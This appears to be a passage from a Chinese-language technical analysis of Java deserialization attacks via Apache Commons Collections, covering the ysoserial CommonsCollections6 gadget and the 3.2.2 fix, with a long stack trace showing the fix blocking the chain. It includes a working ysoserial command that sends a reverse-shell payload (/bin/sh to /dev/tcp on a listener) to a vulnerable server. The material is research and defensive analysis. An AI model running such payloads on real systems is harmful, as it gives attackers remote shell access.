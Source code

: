 8.4.7) ysoserial/CommonsCollections6

参[52]，8u232可以得手。

https://github.com/frohoff/ysoserial/blob/master/src/main/java/ysoserial/payloads/CommonsCollections6.java

测试:

nc -l -p 7474

java \
-cp "commons-collections-3.1.jar:." \
VulnerableServer 192.168.65.23 1414

java -jar ysoserial-0.0.6-SNAPSHOT-all.jar CommonsCollections6 \
'sh -c $@|sh any echo /bin/sh -i > /dev/tcp/192.168.65.23/7474 0<&1 2>&1' \
| nc -n 192.168.65.23 1414

ysoserial一直没有把"ConcurrentHashMap+TiedMapEntry"加进去，这是出于啥考虑？
CommonsCollections6是"HashSet+TiedMapEntry"。

8.5) Apache Commons Collections 3.2.2的修补方案

参[49]，KINGX说3.2.2对包括InvokerTransformer在内的一些不安全的类增加了安全
检查。

用单机版的ConcurrentHashMapExec测试:

$ java -cp "commons-collections-3.2.2.jar:." ConcurrentHashMapExec "/bin/touch /tmp/scz_is_here"
Exception in thread "main" java.lang.UnsupportedOperationException: Serialization support for org.apache.commons.collections.functors.InvokerTransformer is disabled for security reasons. To enable it set system property 'org.apache.commons.collections.enableUnsafeSerialization' to 'true', but you must ensure that your application does not de-serialize objects from untrusted sources.
        at org.apache.commons.collections.functors.FunctorUtils.checkUnsafeSerialization(FunctorUtils.java:183)
        at org.apache.commons.collections.functors.InvokerTransformer.writeObject(InvokerTransformer.java:155)
        at sun.reflect.NativeMethodAccessorImpl.invoke0(Native Method)
        at sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62)
        at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
        at java.lang.reflect.Method.invoke(Method.java:498)
        at java.io.ObjectStreamClass.invokeWriteObject(ObjectStreamClass.java:1140)
        at java.io.ObjectOutputStream.writeSerialData(ObjectOutputStream.java:1496)
        at java.io.ObjectOutputStream.writeOrdinaryObject(ObjectOutputStream.java:1432)
        at java.io.ObjectOutputStream.writeObject0(ObjectOutputStream.java:1178)
        at java.io.ObjectOutputStream.writeArray(ObjectOutputStream.java:1378)
        at java.io.ObjectOutputStream.writeObject0(ObjectOutputStream.java:1174)
        at java.io.ObjectOutputStream.defaultWriteFields(ObjectOutputStream.java:1548)
        at java.io.ObjectOutputStream.writeSerialData(ObjectOutputStream.java:1509)
        at java.io.ObjectOutputStream.writeOrdinaryObject(ObjectOutputStream.java:1432)
        at java.io.ObjectOutputStream.writeObject0(ObjectOutputStream.java:1178)
        at java.io.ObjectOutputStream.defaultWriteFields(ObjectOutputStream.java:1548)
        at java.io.ObjectOutputStream.defaultWriteObject(ObjectOutputStream.java:441)
        at org.apache.commons.collections.map.LazyMap.writeObject(LazyMap.java:137)
        at sun.reflect.NativeMethodAccessorImpl.invoke0(Native Method)
        at sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62)
        at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
        at java.lang.reflect.Method.invoke(Method.java:498)
        at java.io.ObjectStreamClass.invokeWriteObject(ObjectStreamClass.java:1140)
        at java.io.ObjectOutputStream.writeSerialData(ObjectOutputStream.java:1496)
        at java.io.ObjectOutputStream.writeOrdinaryObject(ObjectOutputStream.java:1432)
        at java.io.ObjectOutputStream.writeObject0(ObjectOutputStream.java:1178)
        at java.io.ObjectOutputStream.defaultWriteFields(ObjectOutputStream.java:1548)
        at java.io.ObjectOutputStream.writeSerialData(ObjectOutputStream.java:1509)
        at java.io.ObjectOutputStream.writeOrdinaryObject(ObjectOutputStream.java:1432)
        at java.io.ObjectOutputStream.writeObject0(ObjectOutputStream.java:1178)
        at java.io.ObjectOutputStream.writeObject(ObjectOutputStream.java:348)